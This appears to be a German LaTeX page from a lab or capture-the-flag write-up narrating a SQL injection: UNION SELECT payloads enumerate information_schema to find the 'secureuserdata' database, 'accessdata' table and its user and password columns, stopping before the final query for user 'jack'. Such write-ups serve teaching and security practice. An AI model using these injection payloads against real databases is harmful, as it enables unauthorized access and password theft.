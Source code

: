 \documentclass[10pt,a4paper]{article}
\begin{document}
Jetzt konnten wir beginnen die "`information\_schema"' Tabelle zu benutzen und Datenbanken sowie Tabellen abzufragen. Den LIMIT Befehl benutzten wir, um die einzelnen Zeilen der Ausgabe durchlaufen zu können und ihren Inhalt ausgegeben zu bekommen. Wir begannen also mit:

\begin{verbatim}
'UNION SELECT NULL,schema_name,NULL,NULL FROM information_schema.schemata LIMIT 0,1;#
\end{verbatim}

Das gab uns zunächst den Datenbank-Namen "`information\_schema"' aus. Wir testeten weiter, bis der Befehl:

\begin{verbatim}
'UNION SELECT NULL,schema_name,NULL,NULL FROM information_schema.schemata LIMIT 2,1;#
\end{verbatim}

den gesuchten Datenbank-Namen "`secureuserdata"' als Name des Tool's ausgegeben hat. Diesen konnten wir für weitere Abfragen nutzen, z.B. zunächst, um die Tabellen in dieser Datenbank herauszubekommen:

\begin{verbatim}
'UNION SELECT NULL,table_name,NULL,NULL FROM information_schema.tables WHERE table_schema='secureuserdata';#
\end{verbatim}

Glücklicherweise gab uns diese Anfrage direkt den Namen "`accessdata"' zurück, so dass wir nicht lange mit dem LIMIT Befehl alle Einträge durchgehen mussten. Aus dieser Tabelle wollten wir jetzt die einzelnen Spalten abfragen, die zur Verfügung stehen:

\begin{verbatim}
'UNION SELECT NULL,column_name,NULL,NULL FROM information_schema.columns WHERE table_name='accessdata' AND table_schema='secureuserdata' LIMIT 1,1;#
\end{verbatim}

ergab die Spalte "`user"', und:

\begin{verbatim}
'UNION SELECT NULL,column_name,NULL,NULL FROM information_schema.columns WHERE table_name='accessdata' AND table_schema='secureuserdata' LIMIT 2,1;#
\end{verbatim}

ergab die Spalte "`password"'. Hiermit wussten wir, dass in dieser Tabelle also die Passwörter der einzelnen Benutzer gespeichert wurden. Da wir den Benutzer "`jack"' suchten, haben wir einfach mal den Befehl:
\end{document}
